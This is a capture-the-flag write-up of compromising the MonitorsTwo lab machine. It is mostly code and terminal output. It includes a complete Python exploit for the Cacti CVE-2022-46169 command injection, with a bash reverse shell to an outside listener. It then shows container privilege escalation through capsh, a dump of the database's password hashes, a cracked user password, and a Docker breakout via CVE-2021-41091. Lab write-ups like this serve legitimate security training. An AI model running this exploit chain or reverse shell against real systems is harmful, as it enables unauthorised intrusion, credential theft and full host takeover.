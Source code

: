 Access to http://10.10.11.211:80/ and we found a webapp called Cacti v1.2.22. After some google research we found the vulnerability CVE-2022-46169 which affect this application, and in the **[exploit code](https://raw.githubusercontent.com/FredBrave/CVE-2022-46169-CACTI-1.2.22/main/CVE-2022-46169.py)** we can see how it works. We write the following python script

```python
import requests
import urllib

headers = {"X-Forwarded-For": "127.0.0.1"}
url = "http://10.10.11.211/"

def isVuln():
	r = requests.get(f"{url}/remote_agent.php", headers=headers)
	return r.text != "FATAL: You are not authorized to use this service"

def bruteForce():
	for n in range(1,5):
		for n2 in range (1,18):
			vuln_url = f"{url}/remote_agent.php?action=polldata&poller_id=1&host_id={n}&local_data_ids[]={n2}"
			r = requests.get(vuln_url, headers=headers)
			if r.text != "[]":
				rd_name = r.json()[0]["rrd_name"]
				if rd_name == "polling_time" or rd_name == "uptime":
					print("Bruteforce success!")
					return True, n, n2
	return False, 1, 1

def reverseShell(host_id, data_ids):
	payload = "bash -c 'bash -i >& /dev/tcp/10.10.14.14/1234 0>&1'"
	payload_encoded = urllib.parse.quote(payload)
	inject_request = f"{url}/remote_agent.php?action=polldata&poller_id=;{payload_encoded}&host_id={host_id}&local_data_ids[]={data_ids}"
	r = requests.get(inject_request, headers=headers)

if __name__ == '__main__':
	if isVuln():
		print("Service vulnerable. Exploiting...")
		is_vuln, host_id, data_ids = bruteForce()
		if is_vuln:
			reverseShell(host_id, data_ids)
		else:
			print("Bruteforce failed")
	else:
		print("Service not vulnerable to CVE-2022-46169")
```

And catch the shell with a netcat listener

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/MonitorsTwo-10.10.11.211]
└─$ nc -nvlp 1234         
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.211] 45304
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ whoami
www-data
```

With a python server we upload the linpeas.sh script and retrieve some info

```bash

╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid 
-rwsr-xr-x 1 root root 31K Oct 14  2020 /sbin/capsh

-----------------

╠Container╠
╔══════════╣ Container related tools present (if any):
╔══════════╣ Am I Containered?
╔══════════╣ Container details
═╣ Is this a container? ........... docker
═╣ Any running containers? ........ No
╔══════════╣ Docker Container details
═╣ Am I inside Docker group ....... No
═╣ Looking and enumerating Docker Sockets (if any):
═╣ Docker version ................. Not Found
═╣ Vulnerable to CVE-2019-5736 .... Not Found
═╣ Vulnerable to CVE-2019-13139 ... Not Found
═╣ Rootless Docker? ............... No

-----------------

╔══════════╣ MySQL version
mysql  Ver 15.1 Distrib 10.5.15-MariaDB, for debian-linux-gnu (x86_64) using  EditLine wrapper       

╔══════════╣ Analyzing MariaDB Files (limit 70)
-rw-r--r-- 1 root root 1126 Feb 18  2022 /etc/mysql/mariadb.cnf
[client-server]
socket = /run/mysqld/mysqld.sock

------------------

╔══════════╣ Executable files potentially added by user (limit 70)
2023-03-21+10:49:05.5477811100 /.dockerenv                                       
2023-01-05+11:37:15.8114713440 /entrypoint.sh
```

We found some info about /sbin/capsh execution, **[we can escalate privileges from here](https://gtfobins.github.io/gtfobins/capsh/)**. We also found that we are in a docker container, files that say that there is mysql db present and a script called entrypoint.sh which could be useful too. Lets escalate privileges with capsh

```bash
bash-5.1$ capsh --gid=0 --uid=0 --
capsh --gid=0 --uid=0 --
whoami
root
```

And we are root inside the container, but we cannot do anything more here so lets read the script

```bash
cat /entrypoint.sh
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```

Interesting... It is connecting to db in port 3306 and then run some commands. Lets try to execute directly this commands

```bash
mysql --host=db --user=root --password=root cacti -e "show tables"

Tables_in_cacti
aggregate_graph_templates
aggregate_graph_templates_graph
[SNIP]
user_auth
user_auth_cache
[SNIP]
```

And we have printed the tables, lets try to retrieve some info about user_auth table

```bash
bash-5.1$ mysql --host=db --user=root --password=root cacti -e "select * from user_auth"
< --password=root cacti -e "select * from user_auth"
id      username        password        realm   full_name       email_address   must_change_password    password_change show_tree       show_list       show_preview    graph_settings  login_opts      policy_graphs   policy_trees       policy_hosts    policy_graph_templates  enabled lastchange      lastlogin       password_history        locked  failed_attempts lastfail        reset_perms
1       admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC    0       Jamie Thompson  admin@monitorstwo.htb           on      on      on      on      on      2       1       1       1       1       on      -1-1       -1              0       0       663348655
3       guest   43e9a4ab75570f5b        0       Guest Account           on      on      on      on      on      3       1       1       1       1       1               -1      -1      -1              0       0       0
4       marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C    0       Marcus Brune    marcus@monitorstwo.htb                  on      on      on      on      1       1       1       1       1       on      -1-1               on      0       0       2135691668
bash-5.1$
```

So blurry, lets take just username and password fields

```bash
bash-5.1$ mysql --host=db --user=root --password=root cacti -e "select username, password From user_auth"
<cacti -e "select username, password From user_auth"
username        password
admin   $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
guest   43e9a4ab75570f5b
marcus  $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

Better, we have some hashes to crack with john. With command `john -w=/usr/share/wordlists/rockyou.txt marcus.hash` we got the credentials marcus:funkymonkey. Using ssh we can go in as marcus. Executing linpeas.sh again 

```bash
╔══════════╣ Mails (limit 50)
4721 4 -rw-r--r--   1 root     mail 1809 Oct 18  2021 /var/mail/marcus
4721 4 -rw-r--r--   1 root     mail 1809 Oct 18  2021 /var/spool/mail/marcus
 ```

In /var/mail/marcus we found this email

```text
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```

Lets focus on the last vulnerabilty. Here we have a **[POC](https://github.com/UncleJ4ck/CVE-2021-41091)**. As is says, in the container (where we are root) we set the setuid bit on /bin/bash with the command `chmod u+s /bin/bash`. Then we upload the exploit and move it to the machine, and then execute

```bash
marcus@monitorstwo:/tmp$ ./exp.sh
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit
```

But we don't have a shell, so let's focus on this part

```bash
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'
```

So we do it

```bash
marcus@monitorstwo:/tmp$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p
bash-5.1# whoami
root
```

And we are root

